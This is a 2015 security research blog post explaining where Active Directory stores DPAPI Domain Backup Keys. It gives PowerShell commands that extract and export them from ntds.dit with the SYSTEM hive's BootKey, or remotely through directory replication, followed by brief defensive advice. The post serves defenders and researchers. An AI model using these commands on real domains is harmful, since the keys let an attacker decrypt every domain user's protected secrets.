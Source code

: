 ```yaml
---
id: 6281
title: 'Retrieving DPAPI Domain Backup Keys from&nbsp;Active Directory'
date: 2015-10-26T22:51:00+00:00
author: Michael Grafnetter
layout: revision
guid: https://www.dsinternals.com/6191-revision-v1/
permalink: /6191-revision-v1/
---
```

<h3 style="text-align: justify;">
  Introduction
</h3>

<p style="text-align: justify;">
  The Data Protection API (DPAPI) is used by&nbsp;several components of&nbsp;Windows to securely store passwords, encryption keys and&nbsp;other sensitive data. When&nbsp;DPAPI is&nbsp;used in&nbsp;an Active Directory domain environment, a&nbsp;copy of&nbsp;user&#8217;s master key is&nbsp;encrypted with a&nbsp;so-called DPAPI Domain Backup Key that&nbsp;is&nbsp;known to&nbsp;all domain controllers. Windows Server 2000 DCs use a&nbsp;symmetric key and&nbsp;newer systems use a&nbsp;public/private key pair. If&nbsp;the&nbsp;user password is&nbsp;reset and&nbsp;the&nbsp;original master key is&nbsp;rendered inaccessible to&nbsp;the user, the&nbsp;user&#8217;s access to&nbsp;the master key is&nbsp;automatically restored using the&nbsp;backup key.
</p>

<h3 style="text-align: justify;">
  The&nbsp;Mimikatz Method
</h3>

<p style="text-align: justify;">
  Benjamin Delpy has already found a&nbsp;way to&nbsp;extract these backup keys from&nbsp;the&nbsp;LSASS of&nbsp;domain controllers and&nbsp;it even&nbsp;works remotely:
</p>

[<img class="aligncenter wp-image-6211 size-full" src="https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png" alt="Mimikatz DPAPI Backup Keys" width="741" height="331" srcset="https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png 741w, https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys-300x134.png 300w" sizes="(max-width: 741px) 100vw, 741px" />](https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png)

### Key Storage

<p style="text-align: justify;">
  I have taken Benjamin&#8217;s research one step further and&nbsp;I&nbsp;can now&nbsp;extract these keys directly from&nbsp;the&nbsp;Active Directory database, where&nbsp;they are physically stored:
</p>

[<img class="aligncenter wp-image-6231 size-full" src="https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png" alt="Backup Key Storage" width="643" height="254" srcset="https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png 643w, https://www.dsinternals.com/wp-content/uploads/backupkeys_storage-300x119.png 300w" sizes="(max-width: 643px) 100vw, 643px" />](https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png)

<p style="text-align: justify;">
  The&nbsp;keys are stored in&nbsp;the&nbsp;<strong>currentValue</strong> attribute of&nbsp;objects whose names begin with <strong>BCKUPKEY</strong> and&nbsp;are of&nbsp;class<strong> secret</strong>. The&nbsp;<strong>BCKUPKEY_PREFERRED Secret</strong> and&nbsp;<strong>BCKUPKEY_P Secret</strong> objects actually only contain GUIDs of&nbsp;objects that&nbsp;contain the&nbsp;current modern and&nbsp;legacy keys, respectively. Furthermore, the&nbsp;currentValue attribute is&nbsp;encrypted using BootKey (aka SysKey) and&nbsp;is&nbsp;never sent through LDAP.
</p>

<h3 style="text-align: justify;">
  The&nbsp;Database Dump Method
</h3>

<p style="text-align: justify;">
  The&nbsp;<strong>Get-BootKey</strong>, <strong>Get-ADDBBackupKey</strong> and&nbsp;<strong>Save-DPAPIBlob</strong> cmdlets from&nbsp;my <a href="https://www.dsinternals.com/en/downloads/">DSInternals PowerShell Module</a> can be used to&nbsp;retrieve the&nbsp;DPAPI Domain Backup Keys from&nbsp;ntds.dit files:
</p>

<pre class="lang:ps decode:true"># We need to&nbsp;get the&nbsp;BootKey from&nbsp;the&nbsp;SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

&lt;#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#&gt;

# Now&nbsp;we can decrypt the&nbsp;DPAPI backup keys from&nbsp;the&nbsp;database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

&lt;#
Output:

Type&nbsp;: LegacyKey
DistinguishedName&nbsp;: CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {77, 138, 250, 6...}
KeyId&nbsp;: 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type&nbsp;: PreferredLegacyKeyPointer
DistinguishedName&nbsp;: CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {14, 178, 130, 120...}
KeyId&nbsp;: 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type&nbsp;: RSAKey
DistinguishedName&nbsp;: CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {48, 130, 9, 186...}
KeyId&nbsp;: b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type&nbsp;: PreferredRSAKeyPointer
DistinguishedName&nbsp;: CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {62, 106, 197, 177...}
KeyId&nbsp;: b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#&gt;

# In&nbsp;most cases, we just want to&nbsp;export these keys to&nbsp;the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in&nbsp;the&nbsp;Keys directory:

(dir .\Keys).Name

&lt;#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#&gt;</pre>

Note that&nbsp;mimikatz would name these files similarly.

### The&nbsp;DRSR Method

<p style="text-align: justify;">
  The&nbsp;same result can be achieved by&nbsp;communicating with the&nbsp;Directory Replication Service using the&nbsp;<strong>Get-ADReplBackupKey</strong> cmdlet:
</p>

<pre class="lang:ps decode:true">Get-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys</pre>

### Defense

I&nbsp;am already starting to&nbsp;repeat myself:

<li style="text-align: justify;">
  Restrict access to&nbsp;domain controller backups.
</li>
<li style="text-align: justify;">
  Be cautious when&nbsp;delegating the&nbsp;&#8220;Replicating Directory Changes All&#8221; right.
</li>

&nbsp;